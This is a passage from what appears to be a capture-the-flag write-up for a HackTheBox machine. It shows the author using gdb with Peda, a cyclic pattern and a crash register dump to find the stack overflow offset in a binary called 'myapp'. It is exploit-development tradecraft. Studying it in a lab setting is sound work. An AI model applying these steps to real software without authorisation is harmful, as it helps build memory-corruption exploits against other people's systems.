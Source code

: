 #### Offset

I'll open the file in `gdb` with [Peda](https://github.com/longld/peda)
installed. If I try to run the program, it seems to fork and exit so
that I see the prompt, but can't enter my input. By default `gdb`
follows the parent, but Peda switches that to child by default. In this
case, so some strange reason, I want to stick with the parent, so I'll
set it:



    gdb-peda$ set follow-fork-mode parent



I'll also create a pattern:



    gdb-peda$ pattern_create 200
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'



Now I'll run the program, and enter the pattern:



    gdb-peda$ r
    Starting program: /media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp                              
    [Detaching after vfork from child process 15829]
     14:20:10 up 13 days,  2:04, 32 users,  load average: 1.24, 1.22, 1.10           

    What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAA
    YAAwAAZAAxAAyA
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA



On hitting enter, I reach a crash:



    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x7ffff7ecead4 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f9f580 --> 0x0 
    RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...
    )
    RDI: 0x0 
    RBP: 0x41414e4141384141 ('AA8AANAA')
    RSP: 0x7fffffffdfb8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    RIP: 0x4011ac (<main+77>:       ret)
    R8 : 0xc9 
    R9 : 0x0 
    R10: 0x4003e0 --> 0x6972700073747570 ('puts')
    R11: 0x246 
    R12: 0x401070 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe090 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)